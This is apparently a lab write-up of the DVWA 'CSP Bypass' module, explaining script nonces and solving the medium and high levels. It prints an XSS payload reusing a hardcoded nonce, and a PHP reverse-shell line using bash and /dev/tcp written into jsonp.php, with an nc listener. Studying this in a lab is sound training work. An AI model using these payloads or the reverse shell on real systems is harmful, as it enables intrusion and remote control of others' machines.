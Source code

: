 ```yaml
---
title: DVWA - CSP Bypass
date: 2023-12-18
categories: [CTF, Web Exploitation]
tags: [dvwa, csp, csp-bypass, burp, xss, javascript, js, php, nonce]
img_path: /assets/dvwa/csp_bypass
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Content Security Policy (CSP) Bypass

CSP is used to **define where scripts and other resources can be loaded or executed from**. This module will walk you through ways to bypass the policy based on common mistakes made by developers. None of the vulnerabilities are actual vulnerabilities in CSP, they are vulnerabilities in the way it has been implemented.

**Objective**: Bypass Content Security Policy (CSP) and execute JavaScript in the page.

## Security: Low
> _Examine the policy to find all the sources that can be used to host external script files ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_low_source.php))._

> This task has an active issue: [CSP Bypass can't be solved with Hastebin anymore (once again) #539](https://github.com/digininja/DVWA/issues/539)
{: .prompt-warning}

## Security: Medium
> _The CSP policy tries to use a nonce to prevent inline scripts from being added by attackers ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_medium_source.php))._

1. If we have a look at the source code, we will see that a `nonce` has been included:

    ```php
    $headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

    header($headerCSP);

    // Disable XSS protections so that inline alert boxes will work
    header ("X-XSS-Protection: 0");

    # <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
    ```

    Let's find out what exactly [`nonce`](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/) is:

    _A CSP with a nonce-source might look like this:_

    `content-security-policy: default-src 'self'; script-src 'nonce-2726c7f26c'`

    And the corresponding document might contain a script element that looks like this:

    ```php
    <script nonce="2726c7f26c">
    alert(123);
    </script>
    ```

    There are 2 things to note here:
    1. It’s important that the nonce changes for each response.
    2. It’s important that the nonce is sufficiently hard to predict.

    _Now, because the nonce changes in a way that isn’t predictable, **the attacker doesn’t know what to inject** and so, by only allowing script (or style) elements with valid nonce attributes, we can be sure that injections will fail._

2. Essentialy, in order to bypass CSP we now need to know the `nonce`'s value. If we try to XSS as usual, it won't work:

    ```javascript
    <script>alert("XSS")</script>
    ```

    ![](medium_xss_fail.png)

3. But if we pass our payload along with the `nonce`'s value, it will work just fine:

    ```javascript
    <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert("XSS")</script>
    ```

    ![](medium_xss_nonce.png)

## Security: High
> _The page makes a JSONP call to source/jsonp.php passing the name of the function to callback to, you need to modify the jsonp.php script to change the callback function ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_high_source.php))._

## Reverse shell

1. On this level the pages makes a call to `jsonp.php` and executes whatever code is there:

    ![](homg_high.png)

    ```shell
    $ cat /usr/share/dvwa/vulnerabilities/csp/source/jsonp.php
    <?php
    header("Content-Type: application/json; charset=UTF-8");

    if (array_key_exists ("callback", $_GET)) {
            $callback = $_GET['callback'];
    } else {
            return "";
    }

    $outp = array ("answer" => "15");

    echo $callback . "(".json_encode($outp).")";
    ?>
    ```

2. We can make a backup of this file and replace it with one that contains our code in it, such as a [php reveshe shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell):

    ```shell
    $ sudo cp jsonp.php jsonp.php.bak

    $ ls
    high.js  high.php  impossible.js  impossible.php  jsonp_impossible.php  jsonp.php  jsonp.php.bak  low.php  medium.php

    $ cat jsonp.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");?>
    ```

3. If we set up a listener and click the *Solve the sum* button, we should be able to catch the reverse shell:

    ```shell
    $  nc -lvnp 1337
    listening on [any] 1337 ...
    ```

    ![](medium_revshell.png)

## Command execution

1. If we click the *Solve the sum* button and intercept the traffic with Burp, we will notice the `callback` parameter:

    ![](high_burp.png)

2. We can modify `callback`'s value by passing a simple payload and then execute our payload by sending the request:

    ![](high_burp2.png)

    ![](high_alert.png)

## Security: Impossible
> _This level is an update of the high level where the JSONP call has its callback function hardcoded and the CSP policy is locked down to only allow external scripts ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=ERksJHl0DC0).
- [Content Security Policy Reference](https://content-security-policy.com/).
- Mozilla's [CSP for the web we have](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/).
- PortSwigger's [Content Security Policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy).